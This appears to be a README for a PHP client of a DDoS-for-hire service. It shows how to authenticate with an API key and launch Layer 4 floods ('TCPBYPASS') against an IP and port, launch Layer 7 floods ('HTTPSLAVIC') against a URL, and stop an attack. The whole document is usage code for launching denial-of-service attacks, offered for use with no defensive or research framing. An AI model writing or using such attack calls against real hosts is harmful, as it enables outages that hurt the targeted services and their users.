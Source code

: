 # Undisclosed-API

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.
## Authentication
```php
require 'API.php';
// Username and API Key generated from API Manager website.
$api = new API("username", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots */
$response = $api->startL4("1.1.1.1", 80, 15, "TCPBYPASS", 1);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type */
$response = $api->startL7("https://example.com/", 15, "HTTPSLAVIC", 1, "GET");
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```

